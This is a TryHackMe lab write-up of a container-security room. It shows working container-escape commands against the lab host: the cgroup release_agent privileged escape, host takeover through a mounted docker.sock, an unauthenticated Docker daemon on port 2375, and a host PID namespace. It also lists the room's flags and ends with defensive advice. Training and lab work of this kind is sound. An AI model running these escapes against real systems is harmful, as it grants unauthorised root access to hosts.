




| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|Container Vulnerabilities ||

Container Vulnerabilities sits in the Container Security module of the DevSecOps path, after [Intro to Docker](/post/thm-room-introtodockerk8pdqk/) and alongside [Intro to Kubernetes](/post/thm-room-introtok8s/). The earlier rooms taught how a container is built and run; this one is about what goes wrong when a container is handed too much of the host. Every task starts from the same assumption: you are already root inside a container, and the question is how far that gets you.

The room walks four misconfigurations: a privileged container, a mounted Docker socket, a Docker daemon exposed on the network, and a container that shares the host's namespaces. All four end in the same place, which is code execution as root on the host.

One note on how I ran it. The lab machine gives SSH credentials, but port 22 was firewalled to the TryHackMe network and was not routable from my Mac. The one surface that was reachable directly was the Docker daemon on TCP 2375, which is Vulnerability 3 itself. So I pointed a local Docker client at that daemon, and from there I enumerated the host and the one running container, which happened to be privileged, had the socket mounted, and shared the host PID namespace. That single container let me reproduce the other three vulnerabilities honestly rather than from memory.

```text
  docker -H tcp://10.48.184.197:2375 version --format "{{.Server.Version}}"
  # 20.10.20
  docker -H tcp://10.48.184.197:2375 ps
  docker -H tcp://10.48.184.197:2375 inspect -f "Privileged={{.HostConfig.Privileged}} PidMode={{.HostConfig.PidMode}}" serene_tharp
  # Privileged=true  PidMode=host
```



## Task 1 and Task 2: Setup and Container Vulnerabilities 101

Task 1 deploys the lab machine and hands you credentials (root on the box). Task 2 is the concept primer: containers are not a security boundary by themselves, they are processes isolated by namespaces and cgroups, and that isolation only holds if nobody weakens it. Both tasks are click to progress, no answer needed. The rest of the room is four ways that isolation gets weakened.

## Task 3: Privileged Containers and Linux Capabilities

A container started with `--privileged` keeps nearly every Linux capability instead of the small default set. Capabilities are the granular pieces of root: `cap_sys_admin` for mount and admin syscalls, `cap_sys_module` to load kernel modules, `cap_dac_read_search` to bypass file read checks. `capsh --print` lists what the process holds.

```text
  docker exec serene_tharp capsh --print | head -1
  # cap_chown,...,cap_sys_module,...,cap_sys_admin,...,cap_audit_read+ep
  docker exec serene_tharp id
  # uid=0(root) gid=0(root) groups=0(root)
```



With `cap_sys_admin` you can mount, and that is the whole exploit. The room uses the Trail of Bits cgroup `release_agent` technique: mount an RDMA cgroup, enable `notify_on_release`, write a path to `release_agent`, and when the last process in a child cgroup exits, the kernel runs that `release_agent` script as root on the host. The room's version writes a small script whose body copies a host file into the container:

```text
  mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
  echo 1 > /tmp/cgrp/x/notify_on_release
  host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
  echo "$host_path/exploit" > /tmp/cgrp/release_agent
  echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
```

Because the payload copies `/home/cmnatic/flag.txt` from the host into the container, the flag that appears inside the container is the content of that host file. Reading it through the daemon returns the same value.

The flag added to the container is **`THM{MOUNT_MADNESS}`**.

## Task 4: Escaping via the Exposed Docker Daemon (docker.sock)

The Docker socket lives at **`/var/run`** on the host, as `/var/run/docker.sock`, and it is the control plane for the daemon. Anyone who can write to that socket can tell the daemon to do anything, including starting a new container with the host's root filesystem mounted inside it. If a container has the socket bind-mounted, the container owns the host.

The running container had it mounted, so the escape is three moves: confirm the socket, use it to launch an `alpine` container with host `/` mounted at `/host`, and read the host flag.

```text
  docker exec serene_tharp ls -l /var/run/docker.sock
  # srw-rw---- 1 root 998 /var/run/docker.sock
  docker exec serene_tharp docker -H unix:///var/run/docker.sock run --rm -v /:/host alpine cat /host/root/flag.txt
```



The flag at `/root/flag.txt` on the host is **`THM{NEVER-ENOUGH-SOCKS}`**. Mounting the host and `chroot`-ing into it is the manual version of the same idea the room shows: the container's `/mnt` becomes the host's `/`.



## Task 5: Remote Code Execution via the Exposed Docker Daemon

The Docker Engine can be told to listen on a TCP port. By default that port is **`2375`** for the unencrypted socket (and 2376 for TLS). Exposing 2375 to the network with no authentication is the same as handing out root: anyone who can reach it runs containers on the host. This is the surface I had from my Mac, and it is why the whole room was reachable without SSH.

```text
  # unauthenticated, from anywhere that can route to the host
  curl http://10.48.184.197:2375/version
  export DOCKER_HOST=tcp://10.48.184.197:2375
  docker run --rm -v /:/host alpine chroot /host sh -c "id; hostname"
```

There is no new flag here, just the port. The takeaway is that this one setting turns a local misconfiguration into a remote one.

## Task 6: Abusing Namespaces

Namespaces are what make a container feel separate: its own PID tree, mounts, network, users. Start a container with `--pid=host` (or `--net=host`, or without user-namespace remapping) and that separation is gone for the shared namespace. A container in the host PID namespace sees, and can signal, every process on the host.

```text
  docker exec serene_tharp ps -e -o pid,comm | head -4
  #     PID COMMAND
  #       1 systemd
  #       2 kthreadd
  #       3 rcu_gp
```



Seeing the host's `systemd` as PID 1 inside the container is the tell: this is not an isolated process tree, it is the host's. The flag at `/home/tryhackme/flag.txt` is **`THM{YOUR-SPACE-MY-SPACE}`**.

## Task 7: Conclusion

A click to finish the room. One honest snag worth recording for anyone scripting these rooms: filling the answer boxes and clicking Check from page script set the value but did not submit. Only real mouse clicks on Check registered, the same behaviour I hit on Intro to Docker and Intro to Kubernetes.

## Two takeaways

First, every one of these four is the same bug wearing a different hat. Privileged mode, a mounted socket, an exposed 2375, and shared namespaces all end at root on the host, because each one hands the container a capability the host relies on for isolation. When reviewing a container, the question is not "is it hardened", it is "what does it share with the host": capabilities, the socket, the network port, the namespaces. Any one of those, if over-granted, is game over.

Second, the exposed daemon is the quiet killer. A privileged container needs someone to run a cgroup trick; a docker.sock needs a shell in the right container. Docker on 2375 with no TLS needs only network reach, and it is trivial to leave on when moving the daemon to "remote" for CI or a cluster. Treat `2375` open to anything but localhost as a critical finding, and use `2376` with client certificates if the daemon genuinely must listen.

Room solved 100%: 7 tasks, 8 answers.
